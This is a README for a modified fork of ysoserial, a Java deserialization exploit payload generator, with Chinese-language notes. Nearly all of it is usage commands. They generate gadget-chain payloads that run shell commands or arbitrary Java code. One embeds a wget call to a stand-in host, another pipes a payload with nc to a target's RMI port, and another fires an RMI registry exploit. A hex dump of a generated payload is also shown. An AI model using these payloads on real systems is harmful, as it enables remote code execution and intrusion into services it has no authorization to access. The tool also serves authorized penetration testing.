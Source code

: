 
# ysoserial-5am3

> forked from frohoff/ysoserial



## Description

基于原版的一个魔改版。

[+] 在原版生成命令执行基础上，使其支持生成代码执行Payload
[+] Add JRMPClient2 (https://xz.aliyun.com/t/2479#toc-1)

## Usage

```bash
# 1.调用模块
# java -cp ./ysoserial-5am3.jar <模块名> <所需参数> 
java -cp ./ysoserial-5am3.jar ysoserial.exploit.JRMPListener 8579 URLDNS 

# 2.采用内置poc，生成反序列化payload

# 2.1.默认
# java -jar ./ysoserial-5am3.jar <POC名称> <所需参数> 
# 默认生成为二进制字节
java -jar ./ysoserial-5am3.jar JRMPClient2 10.0.0.1:8119

# 2.2.payload中含有命令执行等参数
# 2.2.1 执行shell命令

java -jar ysoserial.jar CommonsCollections1 "wget http://eval.com"

# 2.2.2 执行java代码

java -jar ysoserial.jar CommonsCollections1 'code:System.out.println("Hello Hack!");'
```

## Examples

```shell
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Download & Building 

Requires Java 1.7+ and Maven 3.x+

```bash

git clone https://github.com/5am3/ysoserial.git
cd ysoserial
mvn clean package -DskipTests
java -jar ./target/ysoserial-0.0.6-SNAPSHOT-all.jar
```
